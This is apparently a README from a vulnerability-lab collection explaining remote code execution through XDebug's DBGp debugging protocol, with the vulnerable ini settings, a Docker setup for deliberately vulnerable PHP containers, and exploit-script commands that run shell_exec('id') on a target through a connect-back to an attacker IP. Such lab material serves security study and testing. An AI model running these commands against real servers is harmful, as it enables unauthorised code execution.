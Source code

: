 # XDebug Remote Debugging Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

XDebug is a PHP extension used for debugging PHP code. When remote debugging mode is enabled with appropriate settings, an attacker can execute arbitrary PHP code on the target server by exploiting the debug protocol (DBGp).

For XDebug version 2.x, the vulnerability occurs when the following configuration is enabled:

```ini
xdebug.remote_connect_back = 1
xdebug.remote_enable = 1
```

For XDebug version 3.x (which introduced breaking changes in configuration), the equivalent vulnerable configuration is:

```ini
xdebug.mode = debug
xdebug.discover_client_host = 1
xdebug.client_host = 1
```

When these configurations are enabled, XDebug will attempt to connect back to the attacker's IP through the DBGp protocol when a client visits the appropriate trigger URL. The DBGp protocol provides an `eval` function that can be used to execute arbitrary PHP code.

References:

- <https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface>
- <https://xdebug.org>

## Environment Setup

Execute the following command to build and start the vulnerable environment:

```
docker compose up -d
```

The environment includes two services:

- PHP 7.1 with XDebug 2.5.5: Accessible at `http://your-ip:8080/`
- PHP 7.4 with XDebug 3.1.6: Accessible at `http://your-ip:8081/`

After the environment is started, visit each URL to see a simple phpinfo page. You can verify that XDebug is enabled and configured for remote debugging in the PHP configuration section.

## Vulnerability Reproduction

Since the vulnerability requires communication using the DBGp protocol with the target server, it cannot be reproduced using HTTP protocol alone.

A proof-of-concept exploit script [exp.py](exp.py) is provided that can execute arbitrary PHP code on the target server. The script supports both XDebug 2.x (port 9000) and XDebug 3.x (port 9003):

```bash
# Requires Python 3 and the requests library
python3 exp.py -t http://[target-ip]:8080/index.php -c 'shell_exec("id");' --dbgp-ip [attacker-ip]
python3 exp.py -t http://[target-ip]:8081/index.php -c 'shell_exec("id");' --dbgp-ip [attacker-ip]
```

Successful exploitation will execute the command and return its output:

![](1.png)

### Important Notes

The exploitation process involves a reverse connection:

1. The exploit script listens on port 9000 (XDebug 2.x) and port 9003 (XDebug 3.x), please make sure these ports are not blocked by the firewall
2. You have to have a public IP address or be in the same network as the target
3. If your public IP differs from your local machine, use the `--dbgp-ip` parameter to specify the IP address that the target server can reach
